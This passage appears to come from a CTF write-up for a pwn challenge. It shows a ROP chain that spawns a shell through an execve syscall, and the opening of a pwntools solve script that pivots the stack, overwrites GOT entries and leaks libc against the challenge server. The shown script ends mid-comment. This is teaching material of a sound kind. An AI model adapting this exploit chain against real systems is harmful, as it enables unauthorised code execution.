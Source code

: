 Finally, we can build an `execve` ROP chain with the gadgets in libc and send it:

```python
# Get libc leak
libc.address = int.from_bytes(r.recvline(keepends=False), "little") - libc.symbols.puts
log.info(f"{hex(libc.address)=}")

# Final ropchain utilizing libc
rop6 = ROP([exe, libc])
rop6.raw(b"bbbbbbbb")  # rbp
# Direct execve syscall
rop6(rax=constants.SYS_execve, rdi=next(libc.search(b"/bin/sh\0")), rsi=0, rdx=0)
rop6.raw(rop6.find_gadget(["syscall"]))
log.info(rop6.dump())
r.send(rop6.chain())

r.interactive()
```

Full solve script:

```python
#!/usr/bin/env python3

# Overview:
# Stack pivot to the libc stdin buffer
# Use the fread call at the end of main to overwrite fread GOT with a pop rbp gadget
# This makes the call to fread act like a ret instruction and gives us control over rdi
# Leak libc with puts
# Use fread to overwrite puts GOT with pop rbp
# This can't be done in the first fread call since we have to pivot
# Use fread to overwrite scanf GOT with pop rbp
# Now we can control both rdi and rsi with various fragments of main
# Call fread with a bigger size to get rid of junk in the libc input buffer and read the final ropchain
# Pivot to the final ropchain and execve /bin/sh

from pwn import *

exe = ELF("./stuff")
libc = ELF("./libc.so.6")

context.binary = exe

# r = process([exe.path])
# r = gdb.debug([exe.path])
r = remote("lac.tf", 31182)

# Get heap leak
r.sendlineafter(b"stuff\n", b"1")
r.recvuntil(b"leak: ")
leak = int(r.recvline(keepends=False), 0)
log.info(f"{hex(leak)=}")
# Address of libc stdin buffer
buffer_addr = leak - 0x1010
log.info(f"{hex(buffer_addr)=}")

# Instructions before the call to fread at the end of main, used to overwrite GOT and control rdi
fread_gadget = 0x40120F
# Instructions before the call to scanf, used to control rsi after scanf GOT is overwritten
rsi_gadget = 0x4011B0
# Instructions at the end of the loop before the jump back to puts, used to control eax after puts GOT is overwritten
eax_gadget = 0x401207
# Instruction before the call to fread that moves rax to rdi
```
